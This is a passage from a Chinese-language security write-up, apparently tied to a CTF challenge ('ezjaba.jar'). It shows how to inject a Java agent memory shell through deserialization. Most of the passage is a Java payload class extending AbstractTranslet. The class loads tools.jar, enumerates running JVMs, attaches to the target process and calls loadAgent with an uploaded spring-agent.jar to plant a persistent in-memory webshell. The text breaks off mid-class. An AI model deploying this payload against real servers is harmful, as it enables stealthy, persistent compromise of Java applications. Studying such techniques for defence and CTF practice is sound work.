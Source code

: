 ![](https://img-blog.csdnimg.cn/f630f1cb7c71498faa7ddedecdb25903.png)

成功执行命令
![](https://img-blog.csdnimg.cn/e59f43d831b443e6b4833a2902c0165e.png)

## 反序列化注入内存马
命令执行的agent内存马搞定了，但反序列化的又需要如何实现呢
可以知道反序列化可以加载任意类，那么我们写一个 获取 jvm 的 pid 号，然后调用 loadAgent 方法将 agent.jar 注入进去就可以
由于 tools.jar 并不会在 JVM 启动的时候默认加载，所以这里利用 URLClassloader 来加载我们的 tools.jar
首先需要上传我们的spring-agent.jar，然后反序列化
参考天下大木头的代码：
```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class TestAgentMain extends AbstractTranslet  {
    public TestAgentMain() throws Exception {
        try {
            java.lang.String path = "/home/bmth/web/spring-agent.jar";
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list", null);
            java.util.List list = (java.util.List) listMethod.invoke(MyVirtualMachine, null);

            System.out.println("Running JVM list ...");
            for (int i = 0; i < list.size(); i++) {
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName", null);
                java.lang.String name = (java.lang.String) displayName.invoke(o, null);
                // 列出当前有哪些 JVM 进程在运行
                // 这里的 if 条件根据实际情况进行更改
                if (name.contains("ezjaba.jar")) {
                    // 获取对应进程的 pid 号
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id", null);
                    java.lang.String id = (java.lang.String) getId.invoke(o, null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach", new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o, new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent", new Class[]{java.lang.String.class});
                    loadAgent.invoke(vm, new Object[]{path});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach", null);
                    detach.invoke(vm, null);
                    System.out.println("Agent.jar Inject Success !!");
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    @Override
```